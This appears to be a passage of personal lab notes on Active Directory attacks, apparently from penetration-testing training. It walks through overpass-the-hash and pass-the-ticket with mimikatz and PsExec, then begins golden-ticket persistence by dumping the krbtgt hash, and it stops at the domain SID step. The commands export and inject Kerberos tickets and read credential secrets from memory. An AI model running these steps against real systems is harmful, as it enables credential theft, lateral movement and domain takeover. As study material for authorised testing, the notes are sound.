 - Once klist returns a krbtgt, then the NTLM has been converted into kerberos TGT
```
.\PsExec.exe \\<hostname> cmd.exe
.\PsExec.exe \\files04 cmd
```

## Pass the Ticket (extract Dave WEB-04 TGS from memory into our own session)
- Export Cache TGT/TGS to disk
```
privilege::debug
sekurlsa::tickets /export
```
- View exported TGT/TGS
```
dir *.kirbi
```
- Pick any TGS ticket in the dave@cifs-web04.kirbi format and inject it through mimikatz via the kerberos::ptt command.
```
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```
- inspect loaded ticket in memory
```
klist
```
- once verified that Dave ticket is loaded in memory, we go to our powershell and access Web04
```
ls \\web04\backup
```

## DCOM (SKIPPED)

# Persistence 

## Golden Ticket - Pass the Ticket (get our hands on the krbtgt password hash and we could create our own self-made custom TGTs, also known as golden tickets)
outcome: The permission of the user whom we used the krbtgt password hash **will be inherited ** to the current user who we used for lateral movement
Condition: we first either have access to a **Domain Admin's group account** or to have **compromised the domain controller** itself to work

- Get the NTLM hash of the krbtgt account (i.e. **Domain Admin's group account**), along with the domain SID
```
./mimikatz.exe privilege::debug
./mimikatz.exe lsadump::lsa /patch
```
- Get domain SID
```
GetDomainsid (PowerView)
```
